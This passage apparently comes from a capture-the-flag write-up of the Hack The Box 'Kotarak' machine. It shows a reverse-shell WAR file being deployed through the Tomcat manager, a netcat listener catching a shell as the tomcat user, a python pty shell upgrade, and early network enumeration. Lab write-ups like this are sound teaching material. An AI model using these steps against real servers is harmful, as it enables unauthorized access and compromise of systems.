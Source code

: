 
#### Upload

To upload the WAR, I’ll use the “WAR file to deploy” section on the page,
using the browse button to select `rev.war`:

![image-20210514091040405](https://0xdfimages.gitlab.io/img/image-20210514091040405.png)

On hitting Deploy, `/rev` now shows up as an application:

![image-20210514091140439](https://0xdfimages.gitlab.io/img/image-20210514091140439.png)

With `nc` listening, I’ll click `/rev`, and it returns a blank page, but also
a shell at `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.55] 51386
    id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
    

Shell upgrade with the standard trick:

    
    
    python -c 'import pty;pty.spawn("bash")'
    tomcat@kotarak-dmz:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    tomcat@kotarak-dmz:/$
    

## Shell as atanas on dmz

### Enumeration

#### Hosts

The hostname with this shell is kotarak-dmz, which implies there’s another
host I will try to go after.

The `ifconfig` shows that the IP of this host is 10.10.10.55, which for HTB
means that I’m on the main VM. There’s also a lxcbr0 adapter with the IP
10.0.3.1. LXC is a container system, so I suspect I need to get into a
container on that network.

#### Homedirs

I’ll There are two home directories on this dmz host:
